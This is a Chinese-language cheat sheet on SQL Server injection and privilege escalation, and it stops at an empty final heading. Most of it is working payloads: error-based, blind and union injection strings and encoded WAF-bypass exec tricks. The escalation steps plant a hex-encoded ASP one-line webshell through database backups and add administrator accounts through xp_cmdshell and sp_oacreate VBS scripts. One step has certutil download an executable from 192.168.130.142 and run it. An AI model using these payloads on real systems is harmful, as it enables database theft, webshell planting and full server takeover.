 
# [](#mssql-%E6%B3%A8%E5%85%A5%E4%B8%8E%E6%8F%90%E6%9D%83%E6%96%B9%E6%B3%95%E6%95%B4%E7%90%86)MSSQL 注入与提权方法整理

## [](#1-sql-server-%E7%9B%B8%E5%85%B3%E5%9F%BA%E7%A1%80%E7%AE%80%E4%BB%8B)1 SQL Server 相关基础简介

### [](#11-%E9%BB%98%E8%AE%A4%E5%BA%93%E4%BB%8B%E7%BB%8D)1.1 默认库介绍

-   master - 用于记录所有 SQL Server 系统级别的信息，这些信息用于控制用户数据库和数据操作。
-   model - SQL Server 为用户数据库提供的样板，新的用户数据库都以 model 数据库为基础
-   msdb - 由 Enterprise Manager 和 Agent 使用，记录着任务计划信息、事件处理信息、数据备份及恢复信息、警告及异常信息。
-   tempdb - 它为临时表和其他临时工作提供了一个存储区。

信息

这里我们经常要打交道的库也就是 master，其中储存了所有数据库名与存储过程。类比于 MySQL 中的 `information_schema` 元数据库。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120143745.png-water_print](assets/1699408935-1795884a078e956735463af9b4d32284.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120143745.png-water_print")

以 master 库为例可以看到上面几个类别，其中视图表 `master.dbo.sysdatabases` 储存所有数据库名，其他数据库的视图则储存它本库的表名与列名。每一个库的视图表都有 `syscolumns` 存储着所有的字段，可编程性储存着我们的函数。

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```sql<br>select name from master.dbo.sysdatabases;<br>``` |

查询所有数据库的名称。

### [](#12-%E5%AD%97%E6%AE%B5%E4%BB%8B%E7%BB%8D)1.2 字段介绍

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```sql<br>select top 1 name,xtype from sysobjects;<br>``` |

xtype 可以是下列对象类型中的一种：

-   C = CHECK 约束
-   D = 默认值或 DEFAULT 约束
-   F = FOREIGN KEY 约束
-   L = 日志
-   FN = 标量函数
-   IF = 内嵌表函数
-   P = 存储过程
-   PK = PRIMARY KEY 约束（类型是 K）
-   RF = 复制筛选存储过程
-   S = 系统表
-   TF = 表函数
-   TR = 触发器
-   U = 用户表
-   UQ = UNIQUE 约束（类型是 K）
-   V = 视图
-   X = 扩展存储过程

## [](#2-sql-server-%E4%BF%A1%E6%81%AF%E6%94%B6%E9%9B%86)2 SQL Server 信息收集

### [](#21-%E6%9D%83%E9%99%90%E5%88%A4%E6%96%AD)2.1 权限判断

SQL Server 内部按作用范围来分有三大主体：

-   Windows 级别主体
-   服务器级别主体
-   数据库级别主体

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210121092915.png-water_print](assets/1699408935-bc546370e50407020566fa9600e92547.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210121092915.png-water_print")

#### [](#211-%E6%9C%8D%E5%8A%A1%E5%99%A8%E7%BA%A7%E5%88%AB)2.1.1 服务器级别

在微软的官方文档中可以看到， `IS_SRVROLEMEMBER ( 'role' [ , 'login' ] )` ，函数 role 的有效值是用户定义的服务器角色和以下固定服务器角色：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120145938.png-water_print](assets/1699408935-de1a1c1dd28667d6f6153e440f7c56bd.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120145938.png-water_print")

返回类型：

| 返回值 | 描述  |
| --- | --- |
| 0   | login 不是 role 的成员。 |
| 1   | login 是 role 的成员。 |
| NULL | role 或 login 无效，或者没有查看角色成员身份的权限。 |

最终我们可以构造语句：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```sql<br>and 1=(select is_srvrolemember('sysadmin'))<br>and 1=(select is_srvrolemember('serveradmin'))<br>and 1=(select is_srvrolemember('setupadmin'))<br>and 1=(select is_srvrolemember('securityadmin'))<br>and 1=(select is_srvrolemember('diskadmin'))<br>and 1=(select is_srvrolemember('bulkadmin'))<br>``` |

在 SQLMap 中使用 –is-dba 命令可以判断是否为管理员权限

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```fallback<br>select * from admin where id =1 AND 5560 IN (SELECT (CHAR(113)+CHAR(122)+CHAR(113)+CHAR(107)+CHAR(113)+(SELECT (CASE WHEN (IS_SRVROLEMEMBER(CHAR(115)+CHAR(121)+CHAR(115)+CHAR(97)+CHAR(100)+CHAR(109)+CHAR(105)+CHAR(110))=1) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(118)+CHAR(112)+CHAR(120)+CHAR(113)))<br>``` |

#### [](#212-%E6%95%B0%E6%8D%AE%E5%BA%93%E7%BA%A7%E5%88%AB%E7%9A%84%E8%A7%92%E8%89%B2)2.1.2 数据库级别的角色

`select IS_MEMBER('db_owner')`

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120150401.png-water_print](assets/1699408935-8daf028f03501932227c8e8a85a88492.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120150401.png-water_print")

### [](#22-%E5%9F%BA%E6%9C%AC%E4%BF%A1%E6%81%AF)2.2 基本信息

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>``` | ```fallback<br>@@version // 数据库版本<br>user  //获取当前数据库用户名<br>db_name() // 当前数据库名 其中db_name(N)可以来遍历其他数据库<br>;select user //查询是否支持多语句<br>``` |

### [](#23-%E5%88%A4%E6%96%AD%E7%AB%99%E5%BA%93%E5%88%86%E7%A6%BB)2.3 判断站库分离

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```sql<br>select * from info where id='1' and host_name()=@@servername;--'<br>``` |

最简单的方法，当然你可以调用 xp\_cmdshell 就可以通过 cmd 来判断。

通过简单的判断数据库版本，当前用户权限，我们就可以想下一步怎么去做，比如 2005 的 xp\_cmdshell 的权限一般是 system 而 2008 的权限一般是 `ntauthority\network service`

## [](#3-sql-server-%E8%AF%AD%E6%B3%95)3 SQL Server 语法

### [](#31-%E6%B3%A8%E9%87%8A%E7%AC%A6%E5%8F%B7)3.1 注释符号

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```fallback<br>/*<br>-- <br>;%00<br>``` |

### [](#32-%E7%A9%BA%E7%99%BD%E5%AD%97%E7%AC%A6)3.2 空白字符

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```fallback<br>01,02,03,04,05,06,07,08,09,0A,0B,0C,0D,0E,0F,10,11,12,13,14,15,16,17,18,19,1A,1B,1C,1D,1E,1F,20<br><br>/**/<br>``` |

### [](#33-%E8%BF%90%E7%AE%97%E7%AC%A6%E5%8F%B7)3.3 运算符号

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>``` | ```fallback<br>+   加法运算<br>-   减法运算<br>*   乘法运算<br>/   除法运算，如果两个表达式值都是整数，那么结果只取整数值，小数值将略去<br>%   取模运算，返回两数相除后的余数<br><br>&   位与逻辑运算，从两个表达式中取对应的位。当且仅当输入表达式中两个位的值都为 1 时，结果中的位才被设置为 1，否则，结果中的位被设置为 0<br>\|   位或逻辑运算，从两个表达式中取对应的位。如果输入表达式中两个位只要有一个的值为 1 时，结果的位就被设置为 1，只有当两个位的值都为 0 时，结果中的位才被设置为 0<br>^   位异或运算，从两个表达式中取对应的位。如果输入表达式中两个位只有一个的值为 1 时，结果中的位就被设置为 1；只有当两个位的值都为 0 或 1 时，结果中的位才被设置为0<br><br>=   等于 <br><>  不等于<br>>   大于  <br>!=  不等于<br><   小于  <br>!<  不小于<br>>=  大于或等于   <br>!>  不大于<br><=  小于或等于<br><br>ALL 如果一组的比较都为 true，则比较结果为 true<br>AND 如果两个布尔表达式都为 true，则结果为 true；如果其中一个表达式为 false，则结果为 false<br>ANY 如果一组的比较中任何一个为 true，则结果为 true<br>BETWEEN 如果操作数在某个范围之内，那么结果为 true<br>EXISTS  如果子查询中包含了一些行，那么结果为 true<br>IN  如果操作数等于表达式列表中的一个，那么结果为 true<br>LIKE    如果操作数与某种模式相匹配，那么结果为 true<br>NOT 对任何其他布尔运算符的结果值取反<br>OR  如果两个布尔表达式中的任何一个为 true，那么结果为 true<br>SOME    如果在一组比较中，有些比较为 true，那么结果为 true<br>``` |

### [](#34-%E8%AF%AD%E6%B3%95%E5%AE%9A%E4%B9%89%E7%AC%A6%E5%8F%B7)3.4 语法定义符号

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>``` | ```fallback<br>< > 尖括号，用于分隔字符串，字符串为语法元素的名称，SQL 语言的非终结符。<br><br>::= 定义操作符。用在生成规则中，分隔规则定义的元素和规则定义。 被定义的元素位于操作符的左边，规则定义位于操作符的右边。<br><br>[ ] 方括号表示规则中的可选元素。方括号中的规则部分可以明确指定也可以省略。<br><br>{ } 花括号聚集规则中的元素。在花括号中的规则部分必须明确指定。<br><br>() 括号是分组运算符<br>``` |

## [](#4-mssql-%E6%B3%A8%E5%85%A5)4 MSSQL 注入

### [](#41-%E6%98%BE%E9%94%99%E6%B3%A8%E5%85%A5)4.1 显错注入

#### [](#411-%E5%8E%9F%E7%90%86)4.1.1 原理

MSSQL 报错注入利用的就是显示或隐式转换来报错注入，比如以下就是典型的隐式转换

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>``` | ```sql<br>select * from admin where id =1 and (select user)>0--<br><br>select * from admin where id =1\|(select user)--<br><br>在将 nvarchar 值 'dbo' 转换成数据类型 int 时失败。<br>``` |

显示转换也就是利用函数来转换，我们经常用到的两个函数就是 cast 和 convert

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```sql<br>select * from admin where id =1 (select CAST(USER as int))<br><br>select * from admin where id =1 (select convert(int,user))<br>``` |

**判断当前数据库：**

`id=1'and db_name()>0;--`

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120152616.png-water_print](assets/1699408935-9c537f52af6226b9c3bd363bcd205266.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120152616.png-water_print")

**爆表名：**

`id=1' and 1=(select top 1 name from sysobjects where xtype='u' and name !='info');--`

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120152643.png-water_print](assets/1699408935-e0a516cb34c4d0f52d0b00f22301ebd5.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120152643.png-water_print")

**爆列名：**

`id=1' and 1=(select top 1 name from syscolumns where id=(select id from sysobjects where name = 'admin') and name<>'id');--`

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120152732.png-water_print](assets/1699408935-99e68becd8dd7aabe9a847f8e1f54d34.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120152732.png-water_print")

**爆数据：**

`id=1' and 1=(select top 1 username from admin);--`

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120152807.png-water_print](assets/1699408935-2d09d632e3bf3cfdad46df60f372b3c2.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120152807.png-water_print")

#### [](#412-%E5%85%B6%E5%AE%83%E7%94%A8%E6%B3%95)4.1.2 其它用法

当然查询数据库的所有表还可以使用 `INFORMATION_SCHEMA.TABLES`

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>``` | ```sql<br>select * from INFORMATION_SCHEMA.TABLES<br><br>select * from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME='admin'<br><br>id=1 and 1=(select top 1 table_name from information_schema.tables);--<br>``` |

要判断当前表名和列名，也可以使用 `having 1=1` 和 `group by`

`id=1 having 1=1`

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120153503.png-water_print](assets/1699408935-5ede7308be8d3b679bc6c48707a8bcc6.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120153503.png-water_print")

**爆出当前表和字段：**

`id=1 group by info.id,info.name having 1=1`

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120153547.png-water_print](assets/1699408935-4007b534e7fb0824de079c6934bcbb76.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120153547.png-water_print")

#### [](#413-%E7%AE%80%E5%8D%95%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87)4.1.3 简单注入绕过

这里引入一个 `declare` 函数，他是 mssql 声明局部变量的函数，我们经常用它来绕过 waf 对一些关键词的拦截

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```sql<br>select * from admin where id =1;declare @a nvarchar(2000) set @a='select convert(int,@@version)' exec(@a) --<br>``` |

declare 定义变量，set 设置变量值，exec 执行变量

变量的值是支持 hex 和 ascii 码的，当过滤引号我们就可以这么用把我们的语句编码一下

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```sql<br>select * from admin where id =1;declare @s varchar(2000) set @s=0x73656c65637420636f6e7665727428696e742c404076657273696f6e29 exec(@s)--<br><br>select * from admin where id =1;declare @s varchar(2000) set @s= CHAR(115) + CHAR(101) + CHAR(108) + CHAR(101) + CHAR(99) + CHAR(116) + CHAR(32) + CHAR(99) + CHAR(111) + CHAR(110) + CHAR(118) + CHAR(101) + CHAR(114) + CHAR(116) + CHAR(40) + CHAR(105) + CHAR(110) + CHAR(116) + CHAR(44) + CHAR(64) + CHAR(64) + CHAR(118) + CHAR(101) + CHAR(114) + CHAR(115) + CHAR(105) + CHAR(111) + CHAR(110) + CHAR(41) exec(@s)--<br>``` |

### [](#42-%E7%9B%B2%E6%B3%A8)4.2 盲注

其实跟 mysql 大同小异无非就是分割字符串比较，但是 mssql 的盲注套路确实没那么多。

#### [](#421-%E5%B8%83%E5%B0%94%E7%9B%B2%E6%B3%A8)4.2.1 布尔盲注

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```sql<br>id=1 and ascii(substring((select top 1 name from master.dbo.sysdatabases),1,1)) >= 109<br>``` |

#### [](#422-%E6%97%B6%E9%97%B4%E7%9B%B2%E6%B3%A8)4.2.2 时间盲注

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```sql<br>id=1;if (select IS_SRVROLEMEMBER('sysadmin'))=1 WAITFOR DELAY '0:0:5'--<br><br>id=1;if (ascii(substring((select top 1 name from master.dbo.sysdatabases),1,1)))>1 WAITFOR DELAY '0:0:5'--<br>``` |

### [](#42-%E8%81%94%E5%90%88%E6%B3%A8%E5%85%A5)4.2 联合注入

mssql 联合注入我们一般不使用数字占位，而是 null，因为使用数字占位可能会发生隐式转换

`id=1 union select null,name,pass from info`

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120161528.png-water_print](assets/1699408935-a97988434f255884c912a399dac6f113.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120161528.png-water_print")

也可以利用如下方法：

`id=1 SELECT 1 UNION (select CAST(USER as int))`

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120161612.png-water_print](assets/1699408935-51e080c70f25469316f61941aee16ab7.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120161612.png-water_print")

## [](#5-mssql-%E6%8F%90%E6%9D%83)5 MSSQL 提权

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120182207.png-water_print](assets/1699408935-011fdc3afb569af766ea34326f606912.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120182207.png-water_print")

### [](#51-%E5%A4%87%E4%BB%BD%E6%8B%BF-shell)5.1 备份拿 shell

备份拿 shell 也就涉及到了权限的问题，SA 权限不用说没有降权的话基本能做任何事情了，它数据库权限是 `db_owner`，当然其他用户如果也拥有 `db_owner` 基本也可以通过备份拿下 shell，但是在设置目录权限后就不行了。

#### [](#511-%E8%B7%AF%E5%BE%84%E7%9A%84%E5%AF%BB%E6%89%BE)5.1.1 路径的寻找

需要路径的我们一般有几个思路：

1.  报错寻找
2.  字典
3.  旁站信息收集
4.  调用储存过程来搜索
5.  读配置文件

这里我们着重讨论一下储存过程也就是这些函数来找我们的网站根目录。一般我们可以用 `xp_cmdshell`、`xp_dirtree`、`xp_dirtree`、`xp_subdirs`

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```sql<br>execute master..xp_dirtree 'c:'       //列出所有 c:\ 文件和目录,子目录 <br>execute master..xp_dirtree 'c:',1     //只列 c:\ 文件夹 <br>execute master..xp_dirtree 'c:',1,1   //列 c:\ 文件夹加文件 <br>``` |

通过执行 `xp_dirtree` 返回我们传入的参数，如果没有回显的话，可以这样创建一个临时的表插入

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```sql<br>id=1;CREATE TABLE tmp (dir varchar(8000),num int,num1 int);<br><br>id=1;insert into tmp(dir,num,num1) execute master..xp_dirtree 'c:',1,1<br>``` |

`xp_cmdshell` 寻找路径：

这个 `xp_cmdshell` 找起来更加方便我们调用 cmd 的命令去搜索，比如我的 web 目录有个 1.aspx

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```bash<br>C:\Users\Gee>for /r c:\ %i in (1*.aspx) do @echo %i<br>c:\www\1.aspx<br>``` |

所以只需要建立一个表，存在一个 char 字段就可以了。

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```sql<br>id=1;CREATE TABLE cmdtmp (dir varchar(8000));<br><br>id=1;insert into cmdtmp(dir) exec master..xp_cmdshell 'for /r c:\ %i in (1*.aspx) do @echo %i'<br>``` |

信息

SQL Server 阻止了对组件 `xp_cmdshell` 的过程 `sys.xp_cmdshell` 的访问，因为此组件已作为此服务器安全配置的一部分而被关闭。系统管理员可以通过使用 sp\_configure 启用。

如果遇到 xp\_cmdshell 不能调用，报错，可用如下命令恢复：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>``` | ```fallback<br>// 允许修改高级参数 <br>;EXEC sp_configure 'show advanced options',1;RECONFIGURE;<br><br>// 打开xp_cmdshell 扩展<br>;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE;--<br>``` |

#### [](#512-%E5%B7%AE%E5%BC%82%E5%A4%87%E4%BB%BD)5.1.2 差异备份

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>``` | ```sql<br>// 完整备份一次(保存位置可以改)<br>backup database 库名 to disk = 'c:\bak.bak';--<br><br>create table [dbo].[test] ([cmd] [image]);<br><br>// 创建表 cmd 并插入一句话木马<br>insert into test(cmd) values(0x3C25657865637574652872657175657374282261222929253E)<br><br>// 进行差异备份<br>backup database 库名 to disk='C:\d.asp' WITH DIFFERENTIAL,FORMAT;--<br>``` |

差异备份有多种情况可能不成功，一般就是目录权限的问题，第一次备份的目录是否可能没有权限，第二次备份到网站目录是否有权限，所以一般不要直接备份到 c 盘根目录

当过滤了特殊的字符比如单引号，或者路径符号都可以使用前面提到的定义局部变量来执行。

#### [](#513-log-%E5%A4%87%E4%BB%BD)5.1.3 LOG 备份

> LOG 备份需要先把指定的数据库激活为还原模式，所以需要执行`alter database XXX set RECOVERY FUL`，而差异备份不需要，所以只有这条语句的就是 LOG 备份

LOG 备份的要求是目标机器的数据库备份过，而且选择恢复模式得是完整模式，但是使用 log 备份文件会小的多，当然如果你的权限够高可以设置他的恢复模式。

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>``` | ```sql<br>alter database 库名 set RECOVERY FULL <br><br>create table cmd (a image) <br><br>backup log 库名 to disk = 'c:\xxx' with init <br><br>insert into cmd (a) values (0x3C25657865637574652872657175657374282261222929253E) <br><br>backup log 库名 to disk = 'c:\xxx\2.asp'<br>``` |

相对于差异备份，log 备份的好处就是备份出来的 webshell 的文件大小非常的小。

### [](#52-xp_cmdshell)5.2 xp\_cmdshell

-   测试 xp\_cmdshell 是否可以执行
    
    -   `exec master..xp_cmdshell 'ver'`
-   添加管理员用户
    
    -   `exec master.dbo.xp_cmdshell 'net user q 123456q /add'`
    -   `exec master.dbo.xp_cmdshell 'net localgroup administrators q /add'`
-   远程下载文件，上马
    

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```sql<br>exec master.dbo.xp_cmdshell 'cd c:\www & certutil -urlcache -split -f http://192.168.130.142:80/download/file.exe';<br><br>exec master.dbo.xp_cmdshell 'cd c:\www & file.exe';<br>``` |

### [](#53-sp_oacreate)5.3 sp\_oacreate

当 xp\_cmdshell 被删除可以使用这个来提权试试，恢复 sp\_oacreate

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>``` | ```sql<br>EXEC sp_configure 'show advanced options', 1;  <br>RECONFIGURE WITH OVERRIDE;  <br>EXEC sp_configure 'Ole Automation Procedures', 1;  <br>RECONFIGURE WITH OVERRIDE;  <br>EXEC sp_configure 'show advanced options', 0;<br>``` |

sp\_oacreate 是一个非常危险的存储过程可以删除、复制、移动文件。还能配合 sp\_oamethod 来写文件执行 cmd。

有以下几种利用思路：

-   调用 cmd 来执行命令

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>``` | ```sql<br>wscript.shell 执行命令<br><br>declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c xxx'<br><br><br><br>Shell.Application 执行命令<br><br>declare @o int<br>exec sp_oacreate 'Shell.Application', @o out<br>exec sp_oamethod @o, 'ShellExecute',null, 'cmd.exe','cmd /c net user >c:\test.txt','c:\windows\system32','','1';<br>``` |

-   写入启动项

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>``` | ```sql<br>declare @sp_passwordxieo int, @f int, @t int, @ret int<br>exec sp_oacreate 'scripting.filesystemobject', @sp_passwordxieo out<br>exec sp_oamethod @sp_passwordxieo, 'createtextfile', @f out, 'd:\RECYCLER\1.vbs', 1<br>exec @ret = sp_oamethod @f, 'writeline', NULL,'set wsnetwork=CreateObject("WSCRIPT.NETWORK")'<br>exec @ret = sp_oamethod @f, 'writeline', NULL,'os="WinNT://"&wsnetwork.ComputerName'<br>exec @ret = sp_oamethod @f, 'writeline', NULL,'Set ob=GetObject(os)'<br>exec @ret = sp_oamethod @f, 'writeline', NULL,'Set oe=GetObject(os&"/Administrators,group")'<br>exec @ret = sp_oamethod @f, 'writeline', NULL,'Set od=ob.Create("user","123$")'<br>exec @ret = sp_oamethod @f, 'writeline', NULL,'od.SetPassword "123"'<br>exec @ret = sp_oamethod @f, 'writeline', NULL,'od.SetInfo'<br>exec @ret = sp_oamethod @f, 'writeline', NULL,'Set of=GetObject(os&"/123$",user)'<br>exec @ret = sp_oamethod @f, 'writeline', NULL,'oe.add os&"/123$"';<br>``` |

### [](#54-%E6%B2%99%E7%9B%92%E6%8F%90%E6%9D%83)5.4 沙盒提权

沙盒模式是数据库的一种安全功能。在沙盒模式下，只对控件和字段属性中的安全且不含恶意代码的表达式求值。如果表达式不使用可能以某种方式损坏数据的函数或属性，则可认为它是安全的。

使用场景：无法执行命令时，`xp_regwrite` 可用 (使用条件)

-   开启沙盒模式：

`exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',1`

SandBoxMode 参数含义（默认是 2）

`0`：在任何所有者中禁止启用安全模式

`1` ：为仅在允许范围内

`2` ：必须在 access 模式下

`3`：完全开启

-   利用 jet.oledb 执行系统命令添加用户

`select * from openrowset('microsoft.jet.oledb.4.0' ,';database=c:\windows\system32\ias\ias.mdb' ,'select shell("cmd.exe /c net user q 123456q /add")')`

-   将 q 用户添加至管理员组

`select * from openrowset('microsoft.jet.oledb.4.0' ,';database=c:\windows\system32\ias\ias.mdb' ,'select shell("cmd.exe /c net localgroup administrators q /add")')`

### [](#55-%E5%88%A9%E7%94%A8-mssql-%E6%A8%A1%E6%8B%9F%E7%99%BB%E5%BD%95%E6%8F%90%E6%9D%83)5.5 利用 mssql 模拟登录提权

开发者有时为了满足某种需求，允许其他登录用户模拟高权限的用户，对于开发来说，一个再简单不过的功能。虽然严格意义上这不算个漏洞，但是这种配置不当一般可以用来提权。

#### [](#551-%E8%B5%8B%E4%BA%88%E7%94%A8%E6%88%B7-myuser1-%E6%9D%83%E9%99%90%E6%9D%A5%E6%A8%A1%E6%8B%9F-myuser2-myuser3%E5%8F%8Asa)5.5.1 赋予用户 MyUser1 权限来模拟 MyUser2, MyUser3，及 sa

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>``` | ```fallback<br>USE master;<br>GRANT IMPERSONATE ON LOGIN::sa to [MyUser1];<br>GRANT IMPERSONATE ON LOGIN::MyUser2 to [MyUser1];<br>GRANT IMPERSONATE ON LOGIN::MyUser3 to [MyUser1];<br>GO<br>``` |

#### [](#552--%E6%9F%A5%E6%89%BE%E5%8F%AF%E4%BB%A5%E6%A8%A1%E6%8B%9F%E7%99%BB%E5%BD%95%E7%9A%84%E7%94%A8%E6%88%B7)5.5.2 查找可以模拟登录的用户

默认情况下，系统管理员可以模拟任何人，但是正常登录必须分配权限来模拟特定的用户，使用 MyUser1 用户登录，打开新建查询，执行下面语句查询那些用户可以用来模拟登录

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>``` | ```fallback<br>SELECT distinct b.name<br>FROM sys.server_permissions a<br>INNER JOIN sys.server_principals b<br>ON a.grantor_principal_id = b.principal_id<br>WHERE a.permission_name = 'IMPERSONATE'<br>``` |

这里我们可以看到 MyUser1 用户可以模拟登录 sa, MyUser2, MyUser2 用户，接下来就是模拟登录 sa 来获取 sysadmin 权限了

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120195250.png-water_print](assets/1699408935-88240c6df0a35f5d3971f779aaba2a65.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120195250.png-water_print")

#### [](#553--%E6%A8%A1%E6%8B%9F-sql-server-%E7%94%A8%E6%88%B7%E7%99%BB%E9%99%86)5.5.3 模拟 SQL Server 用户登陆

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>``` | ```sql<br>-- 验证是否为sysadmin权限<br>SELECT SYSTEM_USER<br>SELECT IS_SRVROLEMEMBER('sysadmin')<br>-- 模拟sa登录<br>EXECUTE AS LOGIN = 'sa'<br>-- 验证是否为sysadmin权限<br>SELECT SYSTEM_USER<br>SELECT IS_SRVROLEMEMBER('sysadmin')<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120195349.png-water_print](assets/1699408935-e5dea19362e0ad9f5c249e04b0241fee.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120195349.png-water_print")

#### [](#534-ps-%E5%B7%A5%E5%85%B7%E5%8C%96)5.3.4 PS 工具化

